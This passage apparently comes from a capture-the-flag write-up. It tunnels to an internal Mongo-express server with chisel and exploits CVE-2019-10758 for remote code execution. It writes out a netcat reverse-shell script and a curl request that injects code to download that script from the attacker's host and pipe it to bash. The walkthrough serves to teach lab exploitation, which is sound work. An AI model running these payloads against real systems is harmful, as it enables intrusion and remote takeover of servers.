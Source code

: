 ![image](https://user-images.githubusercontent.com/76821053/128166099-1cf3e47f-f0a0-477d-ab62-b7cf373cdf32.png)

On the client machine:

```
./chisel client 10.11.23.202:8000 R:8081:172.17.0.4:8081
```

![image](https://user-images.githubusercontent.com/76821053/128166171-ec457b21-4980-44cf-95e6-c7df55bd63a8.png)

Now we can try and access it through the browser:

![image](https://user-images.githubusercontent.com/76821053/128166223-b0eb3a55-5a07-4489-9a99-dcacc1e5a24e.png)

It asked for credentials. So let use curl to see if we can find more information:

![image](https://user-images.githubusercontent.com/76821053/128166263-a73c7ed6-95c1-4f35-b62d-28ad0560987c.png)

Looking at the curl output we see that MongoDB web interface might be a Mongo-express server.

Searching for more information on Mongo-express i found out that there is an exploit for it with a CVE of CVE-2019-10758.

This exploit is a Remote Code Execution (RCE) via endpoints that use the toBSON method. It allows us to exec commands in a non-safe environment.

Check this [github page](https://github.com/masahiro331/CVE-2019-10758) to see how the exploit works. 

We need to create a bash script payload so we can send it to the Mongo-express server and execute it there:

``` bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP_ADDRESS PORT >/tmp/f
```

![image](https://user-images.githubusercontent.com/76821053/128167014-e97f5f60-a760-4c21-9d30-36a63c6e87a9.png)

Now we have to host the file in a server, we can use python's SimpleHTTPServer to do so. Then we just need to tweak the exploit a bit by asking it to execute curl, download our bash script and pipe it to run with bash:

```
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("curl http://YOUR_IP_ADDRESS:9000/reverse_shell.sh | bash")'
```

![image](https://user-images.githubusercontent.com/76821053/128167082-89b31731-5b4b-4f56-87ed-dbfa72d687c5.png)

Success we recieve a shell on our nc listener port:

![image](https://user-images.githubusercontent.com/76821053/128167118-66f674ec-ddad-46a5-93ff-80fba3e2e2fe.png)

There aren't any flags on the server, so enumerating further we can find a backups directory.
